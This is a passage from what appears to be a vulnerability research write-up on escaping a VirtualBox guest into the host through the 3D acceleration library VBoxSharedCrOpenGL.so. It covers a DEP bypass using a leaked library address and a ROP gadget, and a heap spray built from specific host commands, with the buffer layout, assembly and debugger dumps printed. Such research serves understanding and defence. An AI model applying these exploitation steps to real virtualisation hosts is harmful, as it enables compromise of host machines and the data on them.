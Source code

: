 ```c
uint8_t* g_pvVRamBase = NULL;
```
- Moreover, server_main.c is a part of VBoxSharedCrOpenGL.so library which address can be easily leaked, and the variable itself is placed at the fixed offset from the libary.
Thus to bypass DEP we leak VBoxSharedCrOpenGL.so address, add a fixed offset to it to obtain a pointer to g_pvVRamBase variable, and then force the host process to place the pointer in such way that later our ROP code will read a VRAM address from the pointer and will transfer the control to video memory. As we’ll see soon, just one ROP gadget is enough for that.

**Heap Spray**<br>
The last step is to spray the heap. We need to create many H3DORInstance-s following by a chunks with content controlled by us. To create a display I send VBOXCMDVBVA_FLIP command, as it does the WDDM driver. To allocate chunks of arbitrary content I send CR_PROGRAMNAMEDPARAMETER4DVNV_EXTEND_OPCODE command. This command accepting a buffer as an argument allocates memory and copies the buffer content to it, but doesn’t deallocates it even if the command is failed. I use this “feature” to pass the buffer of the following content:

```assembly
Offset 0x00: <address-of-rop-gadget>
Offset 0x08: <address-of-g_pvVRamBase>
Offset 0x10: <address-of-rop-gadget>
Offset 0x18: <address-of-g_pvVRamBase>
... and so on.
```
As you can see, our buffers contain only two values. The first, a pointer to the rop gadget, is placed at addresses modulo 16, so one of them will be used in the vulnerable call command. Remember:
```assembly
.text:0000000000100DFF                 mov     rax, [rax]
.text:0000000000100E02                 mov     rdi, [rdi+8]
.text:0000000000100E06                 call    qword ptr [rax+320h]
```
The second, a pointer to g_pvVRamBase, is placed at addresses not modulo 16, and one of them will be used in the ROP gadget:
```assembly
gef➤  x/3i $pc
=> 0x7f8485c3c403:	mov    rax,QWORD PTR [rax+0x48]
   0x7f8485c3c407:	mov    rdi,rax
   0x7f8485c3c40a:	call   QWORD PTR [rax]
```
Summarizing, the heap layout at the time of the vulnerable call will be like that:

```assembly
gef➤  x/128gx $rax
0x7f83cfd4f2e0:	0x00007f8485c3c403	0x0000000000000035
0x7f83cfd4f2f0:	0x00007f83cf0c2000	0x00007f83cfd50d70
0x7f83cfd4f300:	0x0000000000000000	0x0000029b00000556
0x7f83cfd4f310:	0x0000000000010101	0x0000000000000305
0x7f83cfd4f320:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f330:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f340:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f350:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f360:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f370:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f380:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f390:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f3a0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f3b0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f3c0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f3d0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f3e0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f3f0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f400:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f410:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f420:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f430:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f440:	0x00007f8485c3c403	0x00007f849fff1650
```